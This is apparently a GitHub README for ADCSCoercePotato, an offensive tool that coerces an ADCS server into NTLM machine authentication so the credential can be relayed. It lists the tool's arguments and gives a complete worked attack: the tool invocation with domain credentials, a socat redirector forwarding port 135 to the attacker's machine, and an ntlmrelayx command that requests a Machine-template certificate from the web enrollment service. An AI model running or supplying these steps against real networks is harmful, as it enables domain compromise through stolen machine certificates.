 # ADCSCoercePotato
Yet another technique for coercing machine authentication but specific for ADCS server<br>
Full details: https://decoder.cloud/2024/02/26/hello-im-your-adcs-server-and-i-want-to-authenticate-against-you/
```
ADCSCoercePotato
- @decoder_it 2024

Mandatory args:
-u Domain Username
-p password
-d Domain Name
-m <host or IP> remote DCOM (ADCS) server address
-k <IP> redirector where socat and ntlmrelayx is running


Optional args:
-n <port> HTTP port where redirector (ntlmrelayx) is listening, default:80
-l <port> local socket server port, default:9999
-c <clsid> default:{D99E6E74-FC88-11D0-B498-00A0C90312F3}

Example: ADCSCoercePotato.exe -m 192.168.212.22 -k 192.168.1.88 -u myuser -p mypass -d mydomain.domain
         On the Linux box (assuming it has IP:192.168.1.88 and the Windows attacker machine is:192.168.1.89)
         and ADCS web enrollment service is also running on:192.168.212.41
         -> socat tcp -listen:135, reuseaddr, fork tcp:192.168.1.89:9999 &
         -> ntlmrelayx.py -t http://192.168.212.41/certsrv/certrqus.asp --adcs --template Machine -smb2support
